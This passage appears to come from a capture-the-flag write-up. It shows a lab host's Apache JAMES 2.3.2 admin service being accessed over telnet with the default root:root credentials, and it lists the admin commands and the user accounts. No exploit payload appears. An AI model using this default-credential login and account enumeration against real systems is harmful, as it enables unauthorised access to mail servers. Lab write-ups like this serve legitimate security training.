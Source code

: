 ## Foothold

The server is running a vulnerable application, [JAMES 2.3.2](https://james.apache.org/). There is a [publicly disclosed](https://www.exploit-db.com/exploits/50347) vulnerability for this version of JAMES server. However, in order to execute this exploit, an attacker will need to be authenticated. Let's try the default credentials of `root:root`

```s
$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

With access to the administrator account, we are able to compromise change other users passwords and execute arbitrary code. 

Looking at what users are available on the machine:

```s
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a users password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a users current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a users email to another email address
showforwarding [username]               shows a users current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection

listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```
